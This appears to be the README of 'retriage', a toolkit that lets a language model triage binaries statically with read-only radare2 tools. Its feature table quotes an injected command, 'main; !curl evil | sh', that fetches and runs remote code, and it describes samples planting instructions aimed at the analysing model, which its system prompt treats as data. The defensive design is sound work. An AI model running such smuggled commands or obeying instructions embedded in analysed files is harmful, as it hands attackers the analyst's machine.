

# retriage

**LLM-assisted static binary triage with radare2: hardened tools, an MCP server, and reports you can audit.**

`retriage` gives a language model (or any MCP client such as Claude Desktop or Cursor) a small set of **read-only reverse-engineering tools**.
The model decompiles, follows cross-references, decodes strings and **renames functions as it understands them**; renames show up in every
caller, so later functions get easier to read. It ends with a structured report. The binary is analyzed statically and **never executed**.

It is a research/engineering toolkit, not a verdict machine: see [Limitations](#limitations).

## What makes it different

| | |
|---|---|
| **Hardened tool layer** | Model-supplied arguments are allow-list validated before they reach radare2, and radare2 runs with `cfg.sandbox`. A sample that tricks the model into sending `main; !curl evil \| sh` gets an error, not a shell ([threat model](docs/threat-model.md), tested). |
| **Untrusted-data handling** | Every tool result is fenced as attacker-controlled data, and the system prompt forbids following instructions found in it. |
| **Evidence-first reports** | Behaviors must cite evidence, `limitations` is mandatory, file hashes come from code (never the model), and every indicator is **ground-checked** against tool output: a value the model invented is flagged `grounded: false`. |
| **Full audit trail** | `--transcript` writes every model message and tool call/result as JSONL, so any claim can be traced. |
| **Bring your own model** | Any OpenAI-compatible endpoint (OpenAI, LiteLLM, Ollama, LM Studio, vLLM...), or no model at all via the offline baseline. |
| **Same tools over MCP** | `retriage mcp ./sample` serves the identical hardened tools to any MCP client. |

## Quick start

```bash
# 1. radare2 (https://github.com/radareorg/radare2), e.g.  sudo apt install radare2   |   brew install radare2
# 2. the package
pip install -e ".[mcp,dev]"

# 3. build the benign demo target (stripped; decodes an XOR-obfuscated URL-like string; does no networking)
bash examples/build_demo.sh demo_target

# 4. run the offline baseline policy (no API key, not an LLM)
retriage analyze demo_target --md report.md -o report.json --transcript transcript.jsonl
```

Real output on the demo (17 tool calls; hashes differ with your compiler):

```text
  [ 6] get_disassembly(target='0x1000' ...)  ...  scanning the functions
  [12] rename_function(target='0x1149', new_name='xor_decode_routine') -> ok
  [15] get_disassembly(target='0x11cf')       -> the caller now shows "call xor_decode_routine"
  [16] xor_bruteforce(target='0x2020')        -> key 0x5a: http://c2.example.invalid/gate.php
```

```text
Verdict: suspicious (confidence low) · Risk: low
Behavior: Runtime decoding of an obfuscated string (single-byte XOR) · T1140
  evidence: xor_bruteforce at 0x2020: key 0x5a -> 'http://c2.example.invalid/gate.php'
Indicators: url hxxp://c2[.]example[.]invalid/gate[.]php · domain c2[.]example[.]invalid   (both grounded)
```

Full artifacts: [`examples/output/`](examples/output/) (report JSON, Markdown, and the 36-event transcript).

### With a real model

```bash
export RETRIAGE_API_BASE=https://api.openai.com/v1     # or http://localhost:11434/v1 for Ollama, your LiteLLM URL, ...
export RETRIAGE_API_KEY=...                            # omit for local servers
export RETRIAGE_MODEL=gpt-4o                           # any model with tool/function calling
retriage analyze ./suspicious.bin --llm openai --max-steps 40 --md report.md --transcript t.jsonl
```

Sample bytes, strings and disassembly are sent to the model provider. **Use a local model for confidential samples.**

### With Claude Desktop / Cursor (MCP)

```bash
retriage mcp ./suspicious.bin        # stdio server; see docs/mcp.md for client configuration
```

## How it works



More detail: [architecture](docs/architecture.md) · [tool reference](docs/tools.md) · [report schema](schemas/report.schema.json).

## Limitations

- The **`heuristic` policy is a deterministic baseline, not a language model**: it only recognizes single-byte XOR decode loops. It exists to demo and test the pipeline without an API key.
- radare2's pseudo-decompiler (`pdc`) is **low fidelity**; the prompt tells the model to trust disassembly. A better decompiler backend would help (see roadmap).
- **Static only**: packed, virtualized or heavily obfuscated code will stop the analysis, and the report will say so.
- LLMs make mistakes. Ground-checking catches invented *indicators*, not wrong *interpretations*. Treat reports as leads for a human analyst.
- **No benchmark results are published yet.** Claims about accuracy or speed-up would need a proper evaluation (see roadmap).
- Parsing untrusted binaries with any tool carries risk; run inside a disposable container/VM. See [SECURITY.md](SECURITY.md).

## Roadmap

1. Evaluation harness over public, labelled samples with recorded tool calls, timings and ground truth.
2. Additional backends behind the same interface (Ghidra headless, rizin) for better decompilation.
3. Retrieval of API documentation to help with unfamiliar imports.
4. More offline analyzers (stack strings, API hashing, config extractors) as tools.

## Development

```bash
pip install -e ".[mcp,dev]" && pytest -q          # needs radare2 + gcc for the backend tests (skipped otherwise)
python scripts/gen_docs.py                        # regenerate docs/tools.md and schemas/
python scripts/check_public.py                    # secrets / binaries / size check (also run in CI)
```

Contributions welcome; please read [CONTRIBUTING.md](CONTRIBUTING.md). Only analyze files you are authorized to handle, and only on isolated systems.

## License

MIT, see [LICENSE](LICENSE). radare2 is LGPL-3.0 and is invoked as an external program.
